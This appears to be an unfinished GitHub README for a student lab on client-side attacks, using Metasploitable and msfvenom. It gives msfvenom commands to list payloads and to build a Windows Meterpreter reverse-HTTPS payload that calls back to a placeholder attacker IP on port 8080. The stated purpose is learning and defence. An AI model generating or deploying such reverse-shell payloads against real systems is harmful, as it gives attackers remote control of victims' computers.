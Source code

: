 # client-side-protection

## Objective

Finding backdoors and payloads in the client side for protection

### Skills Learned

- Installing Metasploitable on a Mac (silicon)

  

### Tools Used

- Metasploitable
- Zenmap
- metasploit
- Msfvenom
  

### Steps for Client side vulnerabilities (Msfvenom)

- We can check all the payloads that msfvenom has
```bash
msfvenom --list payloads
```
- We can see the list of the payloads, the first part is the name, the second part is the description. (Platform/type/communication) thats the naming of the payloads. The communication is broken into direction and protocol.
- We can now check a payload and check its options
  
```bash
msfvenom --payload windows/meterpreter/reverse_https --list-options
```

- We can change te basic options, LHOST is our computer and LPORT is the port we want to listen on.
  
```bash
msfvenom --payload windows/meterpreter/reverse_https LHOST=<our IP> LPORT=8080
```

- 
- 
